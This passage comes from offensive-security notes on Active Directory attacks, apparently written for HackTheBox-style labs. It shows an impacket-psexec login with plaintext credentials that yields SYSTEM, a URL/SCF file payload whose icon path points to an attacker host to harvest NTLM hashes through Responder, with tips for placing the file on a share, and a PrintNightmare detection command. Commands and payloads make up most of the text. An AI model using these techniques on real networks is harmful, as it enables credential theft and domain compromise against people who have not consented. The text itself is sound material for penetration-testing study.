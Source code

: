 ```
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100

C:\Windows\system32>whoami
nt authority\system
```

## URL File Attacks -- Originally known as SCF Attack

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share" %}

Imagine the following scenario:

* You have compromised a user
* This user has share access
* This means that you have access to capture additional hashes via <mark style="color:yellow;">Responder</mark>
* Or an open file share will work as well

### Payload

```
html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

* Change the IP in IconFile to your attacker IP
* When you go to save the file, make sure you are saving it as something like "@test.url"
* The @ will force the file at the top of the share

### Responder

```
sudo responder -I tun0 -v
```

* Upon navigating to the file, dumping the file into a file share, it will dump hashes like crazy!!

## PrintNightmare (CVE-2021-1675)

### Detecting Vulnerability

<mark style="color:yellow;">rpcdump.py</mark>

```
impacket-rpcdump @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'


Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```
